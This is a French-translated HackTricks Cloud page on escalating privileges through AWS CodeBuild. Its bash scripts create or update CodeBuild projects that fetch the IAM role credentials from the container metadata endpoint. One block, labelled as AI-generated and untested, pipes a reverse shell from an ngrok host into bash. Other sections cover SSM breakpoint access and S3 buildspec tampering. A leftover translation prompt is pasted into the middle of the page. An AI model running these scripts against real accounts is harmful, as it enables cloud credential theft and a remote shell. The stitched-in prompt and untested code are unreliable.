 # AWS - Privilège d'escalade dans Codebuild

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## codebuild

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Un attaquant disposant des autorisations **`iam:PassRole`, `codebuild:CreateProject` et `codebuild:StartBuild` ou `codebuild:StartBuildBatch`** serait en mesure d'**escalader les privilèges vers n'importe quel rôle IAM de codebuild** en en créant un en cours d'exécution.

{% tabs %}
{% tab title="Exemple1" %}
```bash
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

JSON="{
\"name\": \"codebuild-demo-project\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/service-role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
aws codebuild delete-project --name codebuild-demo-project
```
Le contenu suivant est extrait d'un livre sur les techniques de piratage. Le contenu suivant provient du fichier pentesting-cloud/aws-security/aws-privilege-escalation/aws-codebuild-privesc.md. Traduisez le texte anglais pertinent en français et renvoyez la traduction en conservant exactement la même syntaxe markdown et html. Ne traduisez pas les éléments tels que le code, les noms de techniques de piratage, les mots de piratage, les noms de plateformes cloud/SaaS (comme Workspace, aws, gcp...), le mot "leak", pentesting et les balises markdown. N'ajoutez pas non plus d'éléments supplémentaires en dehors de la traduction et de la syntaxe markdown.
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
build:
commands:
- curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

**Impact potentiel:** Privilège direct pour n'importe quel rôle AWS Codebuild.

{% hint style="warning" %}
Dans un **conteneur Codebuild**, le fichier `/codebuild/output/tmp/env.sh` contient toutes les variables d'environnement nécessaires pour accéder aux **informations d'identification de métadonnées**.

Ce fichier contient la variable d'environnement **`AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`** qui contient le **chemin d'accès URL** pour accéder aux informations d'identification. Il ressemblera à quelque chose comme ceci `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

Ajoutez cela à l'URL **`http://169.254.170.2/`** et vous pourrez extraire les informations d'identification du rôle.

De plus, il contient également la variable d'environnement **`ECS_CONTAINER_METADATA_URI`** qui contient l'URL complète pour obtenir des **informations de métadonnées sur le conteneur**.
{% endhint %}

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Tout comme dans la section précédente, si au lieu de créer un projet de construction, vous pouvez le modifier, vous pouvez indiquer le rôle IAM et voler le jeton.
```bash
REV_PATH="/tmp/codebuild_pwn.json"
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/service-role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
**Impact potentiel:** Privilège d'escalade directe vers n'importe quel rôle AWS CodeBuild.

### `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Comme dans la section précédente mais **sans la permission `iam:PassRole`**, vous pouvez exploiter ces autorisations pour **modifier les projets CodeBuild existants et accéder au rôle qui leur est déjà assigné**.
```bash
REV_PATH="/tmp/codebuild_pwn.json"
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"docker.io/ubuntu/ubuntu:latest\",
\"computeType\": \"BUILD_GENERAL1_SMALL\",
\"imagePullCredentialsType\": \"CODEBUILD\"
}
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
**Impact potentiel:** Privilège d'escalade direct vers les rôles AWS CodeBuild attachés.

### SSM

En ayant **suffisamment de permissions pour démarrer une session SSM**, il est possible d'accéder **à l'intérieur d'un projet CodeBuild** en cours de construction.

Le projet CodeBuild devra avoir un point d'arrêt :

<pre class="language-yaml"><code class="lang-yaml">phases:
  pre_build:
    commands:
      - echo Entered the pre_build phase...
      - echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

Et ensuite :
```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```
Pour plus d'informations, [**consultez la documentation**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html).

**Impact potentiel :** Privilège direct pour les rôles AWS CodeBuild attachés.

### Fichier buildspec S3

[**Selon la documentation**](https://docs.aws.amazon.com/codebuild/latest/userguide/build-spec-ref.html), il est possible de stocker le **fichier buildspec d'un projet CodeBuild** (le code qui sera exécuté lors de son exécution) dans un **bucket S3**.

Ainsi, si un attaquant dispose d'un accès en écriture sur ce fichier, il pourrait **modifier les commandes** pour exfiltrer les **informations d'identification** du rôle IAM du projet CodeBuild et **escalader les privilèges** vers celui-ci.

**Impact potentiel :** Privilège direct pour les rôles AWS CodeBuild attachés.

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFT**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
